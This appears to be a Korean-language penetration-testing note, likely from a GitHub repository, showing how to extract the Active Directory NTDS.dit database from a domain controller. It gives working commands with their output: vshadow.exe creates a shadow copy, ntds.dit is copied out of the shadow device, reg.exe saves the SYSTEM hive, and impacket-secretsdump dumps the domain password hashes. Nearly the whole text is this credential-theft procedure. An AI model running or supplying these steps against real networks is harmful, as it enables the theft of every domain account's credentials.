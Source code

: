 vshadow 유틸리티를 남용하여 Active Directory Database NTDS.dit 데이터베이스 파일을 추출할 수 있는 Shadow Copies 를 만들 수 있다.

도메인 관리자로 도메인 컨트롤러에 연결한다.

**vshadow.exe**
```powershell
C:\\Tools>vshadow.exe -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.

(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\\\?\\Volume{bac86217-0fb1-4a10-8520-482676e08191}\\ [C:\\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:

Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\\\?\\Volume{bac86217-0fb1-4a10-8520-482676e08191}\\ [C:\\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: **\\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2**
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential

Snapshot creation done.
```

Shadow copy device name 을 지정하고 C: 루트 경로에 AD 데이터베이스를 복사한다.
```powershell
C:\\Tools>copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\ntds\\ntds.dit c:\\ntds.dit.bak
   1 file(s) copied.
```

ntds.dit 을 올바르게 추출하려면 SYSTEM 하이브도 저장해야 한다. 이는 다음과 같이 저장가능하다.
```powershell
C:\\>reg.exe save hklm\\system c:\\system.bak
The operation completed successfully.
```

**impacket-secretsdump**
```powershell
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```